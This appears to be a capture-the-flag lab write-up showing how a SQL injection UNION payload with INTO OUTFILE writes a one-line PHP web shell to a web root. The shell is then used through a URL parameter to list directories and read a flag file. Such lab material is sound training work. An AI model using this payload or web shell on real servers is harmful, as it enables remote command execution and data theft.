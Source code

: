 # Writing files

Find the flag by using a webshell.



This lab is also a follow up to the lesson. During this section we where able to write a shell.php into the web application with the following command

{% code overflow="wrap" %}
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
{% endcode %}

By doing this now if we browse to the /shell.php we should be able to send commands via the URL

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Since the payload to write the shell.php is looking for "0" we must enter the paramater and then a UNIX command, like `ls`

```url
http://SERVER_IP:PORT/shell.php?0=ls
```

Now all we have to do is navigate through the directories and look for our flag

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Entering the command `ls ..` we can list files in the previous folder. We are able to find the flag.txt file, so now with the command `cat ../flag.txt` we should see our flag displayed.

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

And there it is! We just found our flag!
